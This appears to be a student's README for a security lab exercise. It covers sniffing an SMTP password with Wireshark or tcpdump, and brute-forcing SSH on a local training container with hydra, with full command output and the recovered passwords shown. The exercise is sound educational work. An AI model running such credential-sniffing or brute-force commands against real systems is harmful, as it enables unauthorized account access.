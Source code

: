 # attack_is_the_best_defense

## Task 0

- Just use wireshark with filter tcp.port = 587
- Start listenening and execute the script `user_authenticating_into_server`
- Check the command line packets or search for password key word
- The base64 password is `bXlwYXNzd29yZDk4OTgh7` use any online base64 encode/decode tool to get the password `mypassword9898!`

- Also you can use `tcpdump` command to get the password

```sh
$ tcpdump -A 'port 587'
...
```

- Use flag `-A` to print packet contents
- Add expression `port 587` to filter packets and print only packets has dist/src port = 587
- Also you can add flag `-w <filename>.pcap` to save packets to a file then use Wireshark or any online viwer to analyze the packets.

## Task 1

- Use hydra tool to bruteforce the ssh account password for the user `sylvain`
- The docker image `sylvainkalache/264-1`
- Find your own passwords dictionary online, I used [this one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

```sh
docker run -p 2222:22 --name my_server -d -ti sylvainkalache/264-1
```

- I used the `hydra-wizard` tool to build my command according to my case

```sh
$ hydra -l sylvain -P 2020-200_most_used_passwords.txt -u  -s 2222  0.0.0.0:2222 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-31 23:04:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 197 login tries (l:1/p:197), ~13 tries per task
[DATA] attacking ssh://0.0.0.0:2222/
[2222][ssh] host: 0.0.0.0   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-31 23:05:34
```

The password is `password123`
